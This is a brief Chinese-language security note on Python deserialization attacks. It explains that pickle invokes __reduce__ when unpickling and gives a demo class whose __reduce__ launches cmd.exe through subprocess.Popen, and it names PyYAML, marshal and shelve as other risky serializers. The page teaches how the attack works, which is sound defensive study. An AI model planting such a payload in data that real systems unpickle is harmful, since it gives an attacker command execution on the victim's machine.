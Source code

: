 反序列化
========================================

pickle demo
----------------------------------------
Python Pickle在反序列化时会调用 ``__reduce__`` ，可用自定义的 ``__reduce__`` 函数来实现攻击。

.. code-block:: python

    import pickle
    import pickletools
    import subprocess

    class A(object):
        a = 1
        b = 2
        def __reduce__(self):
            return (subprocess.Popen, (('cmd.exe',),))

    data = pickle.dumps(A())
    pickletools.dis(data)


其他序列化库
----------------------------------------
- PyYAML
- marshal
- shelve
